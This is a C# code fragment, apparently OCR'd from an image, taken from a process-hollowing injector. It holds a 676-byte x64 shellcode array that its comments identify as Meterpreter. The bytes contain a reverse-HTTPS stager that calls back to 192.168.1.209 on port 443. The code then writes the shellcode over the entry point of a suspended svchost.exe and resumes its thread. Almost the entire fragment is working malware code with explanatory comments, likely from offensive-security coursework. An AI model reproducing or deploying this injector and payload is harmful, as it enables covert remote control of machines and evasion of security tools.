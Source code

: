 ```csharp
            byte[] buf = new byte[676] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xcc, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x4d, 0x31, 0xc9, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x66, 0x81, 0x78, 0x18, 0x0b, 0x02, 0x0f, 0x85, 0x72, 0x00, 0x00, 0x00, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x8b, 0x48, 0x18, 0x50, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x4d, 0x31, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x48, 0x31, 0xc0, 0x41, 0xc1, 0xc9, 0x0d, 0xac, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x41, 0x58, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x4b, 0xff, 0xff, 0xff, 0x5d, 0x48, 0x31, 0xdb, 0x53, 0x49, 0xbe, 0x77, 0x69, 0x6e, 0x69, 0x6e, 0x65, 0x74, 0x00, 0x41, 0x56, 0x48, 0x89, 0xe1, 0x49, 0xc7, 0xc2, 0x4c, 0x77, 0x26, 0x07, 0xff, 0xd5, 0x53, 0x53, 0x48, 0x89, 0xe1, 0x53, 0x5a, 0x4d, 0x31, 0xc0, 0x4d, 0x31, 0xc9, 0x53, 0x53, 0x49, 0xba, 0x3a, 0x56, 0x79, 0xa7, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0xe8, 0x0e, 0x00, 0x00, 0x00, 0x31, 0x39, 0x32, 0x2e, 0x31, 0x36, 0x38, 0x2e, 0x31, 0x2e, 0x32, 0x30, 0x39, 0x00, 0x5a, 0x48, 0x89, 0xc1, 0x49, 0xc7, 0xc0, 0xbb, 0x01, 0x00, 0x00, 0x4d, 0x31, 0xc9, 0x53, 0x53, 0x6a, 0x03, 0x53, 0x49, 0xba, 0x57, 0x89, 0x9f, 0xc6, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0xe8, 0x7a, 0x00, 0x00, 0x00, 0x2f, 0x53, 0x57, 0x51, 0x75, 0x63, 0x71, 0x59, 0x35, 0x62, 0x30, 0x6f, 0x6d, 0x53, 0x79, 0x64, 0x4a, 0x51, 0x31, 0x41, 0x70, 0x64, 0x67, 0x47, 0x53, 0x77, 0x58, 0x69, 0x41, 0x62, 0x50, 0x50, 0x6a, 0x33, 0x48, 0x32, 0x32, 0x37, 0x48, 0x68, 0x49, 0x57, 0x41, 0x5a, 0x55, 0x57, 0x66, 0x69, 0x6f, 0x42, 0x36, 0x46, 0x74, 0x79, 0x47, 0x75, 0x4b, 0x2d, 0x51, 0x6e, 0x58, 0x4e, 0x44, 0x44, 0x69, 0x57, 0x79, 0x35, 0x61, 0x38, 0x76, 0x52, 0x4f, 0x48, 0x74, 0x57, 0x45, 0x64, 0x62, 0x58, 0x5f, 0x77, 0x45, 0x63, 0x54, 0x50, 0x43, 0x4d, 0x53, 0x59, 0x69, 0x30, 0x46, 0x62, 0x58, 0x47, 0x53, 0x50, 0x72, 0x65, 0x6a, 0x50, 0x4b, 0x52, 0x35, 0x75, 0x4e, 0x5f, 0x42, 0x57, 0x51, 0x59, 0x32, 0x76, 0x6f, 0x7a, 0x32, 0x54, 0x57, 0x4b, 0x78, 0x00, 0x48, 0x89, 0xc1, 0x53, 0x5a, 0x41, 0x58, 0x4d, 0x31, 0xc9, 0x53, 0x48, 0xb8, 0x00, 0x32, 0xa8, 0x84, 0x00, 0x00, 0x00, 0x00, 0x50, 0x53, 0x53, 0x49, 0xc7, 0xc2, 0xeb, 0x55, 0x2e, 0x3b, 0xff, 0xd5, 0x48, 0x89, 0xc6, 0x6a, 0x0a, 0x5f, 0x48, 0x89, 0xf1, 0x6a, 0x1f, 0x5a, 0x52, 0x68, 0x80, 0x33, 0x00, 0x00, 0x49, 0x89, 0xe0, 0x6a, 0x04, 0x41, 0x59, 0x49, 0xba, 0x75, 0x46, 0x9e, 0x86, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0x4d, 0x31, 0xc0, 0x53, 0x5a, 0x48, 0x89, 0xf1, 0x4d, 0x31, 0xc9, 0x4d, 0x31, 0xc9, 0x53, 0x53, 0x49, 0xc7, 0xc2, 0x2d, 0x06, 0x18, 0x7b, 0xff, 0xd5, 0x85, 0xc0, 0x75, 0x1f, 0x48, 0xc7, 0xc1, 0x88, 0x13, 0x00, 0x00, 0x49, 0xba, 0x44, 0xf0, 0x35, 0xe0, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0x48, 0xff, 0xcf, 0x74, 0x02, 0xeb, 0xaa, 0xe8, 0x55, 0x00, 0x00, 0x00, 0x53, 0x59, 0x6a, 0x40, 0x5a, 0x49, 0x89, 0xd1, 0xc1, 0xe2, 0x10, 0x49, 0xc7, 0xc0, 0x00, 0x10, 0x00, 0x00, 0x49, 0xba, 0x58, 0xa4, 0x53, 0xe5, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0x48, 0x93, 0x53, 0x53, 0x48, 0x89, 0xe7, 0x48, 0x89, 0xf1, 0x48, 0x89, 0xda, 0x49, 0xc7, 0xc0, 0x00, 0x20, 0x00, 0x00, 0x49, 0x89, 0xf9, 0x49, 0xba, 0x12, 0x96, 0x89, 0xe2, 0x00, 0x00, 0x00, 0x00, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x20, 0x85, 0xc0, 0x74, 0xb2, 0x66, 0x8b, 0x07, 0x48, 0x01, 0xc3, 0x85, 0xc0, 0x75, 0xd2, 0x58, 0xc3, 0x58, 0x6a, 0x00, 0x59, 0xbb, 0xe0, 0x1d, 0x2a, 0x0a, 0x41, 0x89, 0xda, 0xff, 0xd5 };
            //We have obtained the address of the EntryPoint so we can generate our Meterpreter shellcode and use WriteProcessMemory to overwrite the existing code
            WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
            //When CreateProcessW started svchost.exe and populated the PROCESS_INFORMATION structure, it also copied the handle of the main thread into it.
            //Thus we can call the handle of the thread directly as the argument to ResumeThread
            ResumeThread(pi.hThread);
            //We now have all the pieces to create a suspended process, hollow out its original code, replace it with our shellcode, and subsequently execute it.
        } 
```
